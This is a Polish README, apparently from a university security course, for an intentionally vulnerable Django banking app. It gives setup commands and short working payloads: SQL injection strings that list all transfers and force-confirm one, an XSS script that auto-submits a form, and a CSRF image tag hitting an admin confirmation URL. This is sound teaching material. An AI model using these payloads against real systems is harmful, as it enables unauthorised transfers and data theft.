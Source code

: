 # Bezpieczenstwo-komputerowe
## Lista 7

Projekt banku pozwalający wysyłać przelewy.

### Użycie

Przykład instalacji oraz wywołania
```Shell
$ virtualenv venv
$ source venv/bin/activate
(venv) $ pip3 install -r requirements.txt
(venv) $ python3 bank/manage.py runserver
```

Wpisujemy w przeglądarce 'localhost:8000' <br>

Trzeba również stworzyć użytkownika i bazę danych w mysql według danych w bank/bank/settings.py:106-114.

### SQL Injection
Wyświetlenie wszystkich przelewów z bazy danych
```Shell
" OR "" = ""; #
```

Zatwierdzenie przelewu
```Shell
"; UPDATE transfer_transfer SET isConfirmed = 1 WHERE title = "Pewien tytul"; #
```

Wyświetlenie plików w systemie (w polu sql query)
```Shell
SHOW VARIABLES WHERE Variable_Name LIKE "%dir";
```

### Cross-site scripting (XSS)
```Shell
<script>window.addEventListener('load', function(){document.getElementsByTagName("form")[0].submit()})</script>
```

### Cross-site request forgery (XSRF)
```Shell
<img src="http://localhost:8000/transfer/admin/confirm/">
```

### rest API
```Shell
$ curl -X POST --header Content-Type:application/json --data '{"username":"<username>", "email":"<mail>", "password":"<password">}' http://localhost:8000/account/api/registation/
$ curl -X POST --header Content-Type:application/json --data '{"recipientName":"Pan x", "recipientAccount":"12345678901234567890123456", "title":"Tytul", "amount":"12345"}' -u username http://localhost:8000/transfer/api/prepare/
```

### token JWT
```Shell
$ curl -X POST --header Content-Type:application/json --data '{"username":"<username>","password":"<password">}' http://localhost:8000/api/token/
$ curl -X POST --header Content-type:application/json --data '{"refresh":"<token>"}'  http:/localhost:8000/api/token/refresh/
$
$ curl -X GET --header Content-Type:application/json -H "Authorization: Bearer <token>" http://localhost:8000/transfer/api/list/
$ curl -X POST --header Content-Type:application/json -H "Authorization: Bearer <token>" --data '{"recipientName":"Pan x", "recipientAccount":"12345678901234567890123456", "title":"Tytul", "amount":"123"}' http://localhost:8000/transfer/api/prepare/
```
